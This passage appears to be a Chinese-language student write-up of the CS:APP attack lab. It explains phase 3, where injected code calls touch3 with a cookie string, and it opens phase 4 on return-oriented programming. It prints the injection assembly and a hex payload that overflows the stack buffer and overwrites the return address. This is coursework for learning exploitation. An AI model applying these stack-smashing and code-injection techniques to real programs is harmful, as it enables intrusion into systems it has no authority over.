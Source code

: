 ```C
15 printf("Touch3!: You called touch3(\"%s\")\n", sval);
16 validate(3);
17 } else {
18 printf("Misfire: You called touch3(\"%s\")\n", sval);
19 fail(3);
20 }
21 exit(0);
22 }
```

我们的任务是让文件ctarget在getbuf()函数返回的时候去执行touch3()的代码。

这一部分与上一一部分的主要区别点在于我们必须使用字符串作为参数进行传递，于是我们必须将cookie进行十六进制转字符串后传递字符串的首地址，这样我们我们必须在栈上布置cookie字符串。同时注意到，hexmatch()函数中会向在一定范围内随机的地址上覆盖cookie数据，为了避免我们正好覆盖到我们布置好的cookie字符串，我们把字符串写到返回地址高8位的地址上去。

touch3.s如下：

```asm
movl $0x5561dca8,%edi
push $0x4018fa
ret
```

得到相应的二进制代码写入touch3.txt中：

```
bf a8 dc 61 55 68 fa 18   <== 可执行代码
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00   <== 栈溢出覆盖ret为栈地址
35 39 62 39 39 37 66 61   <== cookie字符串
```

运行结果：

![1596285814793](./imgs/csapp27.png)

### Return-Oriented Programming 

#### phase 4

对于阶段4来说我们重复阶段2的攻击，但是必须使用farm.c文件中的gadget，可以使用以下指令类型组成的gadget，并且只能使用前8个x86-64寄存器（rax-rdi）：movq popq ret nop

movq、popq、movl、指令的机器码如下：
